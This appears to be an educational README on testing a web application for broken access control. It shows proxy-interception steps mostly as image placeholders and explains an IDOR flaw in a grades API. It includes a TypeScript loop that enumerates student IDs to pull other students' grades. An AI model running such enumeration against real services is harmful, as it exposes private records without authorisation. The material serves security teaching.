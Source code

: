 ## $\textnormal{Test for Broken Access Control}$

| Step 1: Setting the Stage |
| ------------------------- |
| Use a proxy interceptor, which is a tool that allows |
| users to modify and control the raw HTTP requests |
| between their browser and web applications. |

<br />

| Step 2: Intercepting the Request |
| -------------------------------- |
| ![intercepting-the-request](./images/01-intercepting-the-request.png) |

<br />

| Step 3: Modifying the Request |
| ----------------------------- |
| ![modifying-the-request](./images/02-modifying-the-request.png) |

<br />

| Step 4: Sending the Modified Request |
| ------------------------------------ |
| ![sending-the-modified-request](./images/03-sending-the-modified-request.png) |

<br />

| Step 5: Successful Attack |
| ------------------------- |
| ![successful-attack](./images/04-successful-attack.png) |

<br />
<br />



## $\textnormal{Insecure Direct Object Reference (IDOR) Vulnerabilities}$

> - The `GET /grades` route does not contain any access control <br />
    restrictions.

![IDOR-vulnerabilities](./images/05-IDOR-vulnerabilities.png)

> - This means that an attacker could easily view the grades of <br />
    other students by guessing a valid student ID instead of their
    own.

```typescript
import axios from 'axios'

for (let id = 1111; id < 9999; id++) {
    axios
        .get('https://api.grades.patch.edu/grades?subjectid=1293&studentid=2022' + id)
        .then(res => {
            console.log("Student: 2022" + id + ", Grade: " + res.data.grade)
        })
        .catch(error => {
            console.error(error)
        }
    )
}
```
